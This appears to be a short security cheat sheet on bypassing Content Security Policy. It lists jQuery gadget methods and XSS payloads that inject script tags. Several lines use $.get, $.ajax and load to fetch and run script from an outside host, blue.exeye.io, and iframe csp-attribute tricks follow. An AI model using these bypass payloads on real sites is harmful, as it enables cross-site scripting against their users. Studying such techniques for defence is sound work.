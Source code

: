 ### CSP Fun Tricks
#### JQuery Gadget

    header("Content-Security-Policy: script-src 'self' 'unsafe-inline';");
    header("Content-Security-Policy: default-src 'none'; script-src 'nonce-secret' 'strict-dynamic'; style-src 'self'; img-src 'self' data:; media-src 'self'; font-src 'self' data:; connect-src 'self'; base-uri 'none';");
    

 ```javascript
<script nonce=secret>
       .html,
       .after,
       .before,
       .append,
       .prepend,
       // $("body").html('<script>alert``') || $("body").html(name)
       
       wrap,
       wrapAll,
       replaceWith,
       // $("body").wrap('<script>alert``</script>') || $("body").wrap(name)
       
       import(name),
       
       not set connect-src
       
       $.get(`https://blue.exeye.io/alert`)             // Content-Type=text/javascript CORS = *
	   $.ajax(`https://blue.exeye.io/alert`);           // Content-Type=text/javascript CORS = *
	   $.post(`https://blue.exeye.io/alert`);           // Content-Type=text/javascript CORS = *
	   $('body').load(`https://blue.exeye.io/html`);    // Content-Type: text/html 	CORS = *
</script>
 ```
 
 
 #### csp-embedded-enforcement
 
 ```html
<iframe src="/block_request" csp="script-src https://blue.exeye.io" />

<!-- precondition=  same origin && iframe-csp not overwrite csp(http-header-csp meta-csp )-->


<iframe srcdoc="<iframe src='https://blue.exeye.io/block_request'/>" csp="script-src 'none'"></iframe> 

<!-- precondition=  same origin && iframe-csp not overwrite csp(http-header-csp meta-csp )  && but iframe-csp can add your csp strategies to make it strict -->



```















